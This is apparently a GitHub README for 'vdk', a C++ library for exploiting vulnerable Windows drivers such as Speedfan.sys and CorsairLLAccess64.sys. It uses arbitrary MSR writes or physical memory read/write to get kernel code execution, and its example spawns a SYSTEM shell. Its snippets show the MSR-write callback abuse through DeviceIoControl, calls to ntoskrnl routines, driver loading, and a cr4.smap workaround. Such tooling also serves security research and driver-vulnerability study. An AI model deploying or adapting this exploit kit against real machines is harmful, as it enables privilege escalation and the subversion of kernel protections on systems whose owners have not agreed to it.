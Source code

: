 # vdk - vulnerable driver kit

*vdk* is a set of utilities used to help with exploitation of a vulnerable driver.
There are 2 main features of this library:
1. Getting kernel code execution via arbitrary msr write vulnerability
2. Getting kernel code execution via arbitrary physical memory read/write vulnerability

This project was written after I played with a few vulnerable drivers and was highly inspired by [msrexec](https://back.engineering/22/03/2021/) and [vdm](https://back.engineering/01/11/2020/) projects. I suggest you to read them first to understand what's going on.

Treat this project as a rewritten and combined version of those two.

There are 2 vulnerable drivers that you can use this library with but it should be easy to extend to use with any vulnerable driver. The corresponding code is in `example/src/llaccess.hpp` for `CorsairLLAccess64.sys` and `example/src/speedfan.hpp` for `Speedfan.sys`.
The example project shows every part of this library and uses speedfan driver to spawn shell with system privileges.

# How to use
cmkr example:
```
[fetch-content.vdk]
git = "https://github.com/archercreat/vdk.git"
...
link-libraries = ["vdk"]
```

cmake example:
```cmake
include(FetchContent)
FetchContent_Declare(vdk GIT_REPOSITORY https://github.com/archercreat/vdk.git)
FetchContent_MakeAvailable(vdk)

target_link_libraries(${PROJECT_NAME} PRIVATE vdk)
```

# Examples
Please refer to example folder for more examples.

Execute callback in kernel space by abusing abritrary msr write vulnerability:
```cpp
using dbgprint_t = void(*)(const char*, ...);

vdk::msr::exec([&](void* base, vdk::resolver_t resolver)
{
	auto print = reinterpret_cast<dbgprint_t>(resolver(base, "DbgPrint"));
	print("Hello from kernel! cr3: 0x%llx\n", __readcr3());
},
[&](uint32_t msr, uint64_t value)
{
    wrmsr_cmd cmd
    {
        .msr   = msr,
        .value = value
    };
    unsigned long temp, result;
    return DeviceIoControl(drv, ioctl_wrmsr, &cmd, sizeof(cmd), &result, sizeof(result), &temp, nullptr);
});
```

Execute any ntoskrnl exported function:
```cpp
void* sysproc{};
auto status = vdk::map::syscall<proclookup_t>(rdmem, wrmem, "PsLookupProcessByProcessId", 4, &sysproc);
fassert(NT_SUCCESS(status));
```

Iterate over physical regions:
```cpp
for (const auto& region : vdk::phy::regions())
{
	std::printf("Region: 0x%llx - 0x%llx\n", region.start, region.start + region.size);
}
```

Resolve exported function from pe module:
```cpp
std::vector<uint8_t> raw;
vdk::drv::read_file("C:\\Windows\\System32\\ntoskrnl.exe", raw);
auto rva = vdk::pe::get_export_rva(raw.data(), "RtlFindExportedRoutineByName");
```

Retrieve loaded modules list:
```cpp
for (const auto& module : vdk::drv::loaded())
{
	std::printf("0x%llx - 0x%llx %s\n", module.base, module.base + module.size, module.name.c_str());
}
```

Scan memory region for patterns (`0x00` - any character):
```cpp
std::vector<uint8_t> buf{ 0x69, 0x69, 0x69, 0x10 };
auto ptr = vdk::mem::find_first(buff.data(), buf.size(), "\x69\x69\x69\x00", 4);
fassert(ptr);
```

Load or unload drivers (service name will be the name of the file):
```cpp
auto path = std::filesystem::current_path().append("SpeedFan");
vdk::drv::load(path);
vdk::drv::unload(path);
```

# Notes
The msr exploitation is highly unstable and should be used as a last resort. There is a high chance that the thread will switch to another core where `cr4.smap` isn't disabled. If you really want to use msr exploit, build project in `Release` mode and replace cr4 value that is specific to your PC in `lib/vdk/msr.cpp` (I didn't bother getting cr4 value dynamically but might do it later).

# build
```
cmake -B build
cmake --build build --config Release
```

# Credits
All credits go to `_xeroxz` and his `msrexec` and `vdm` projects.
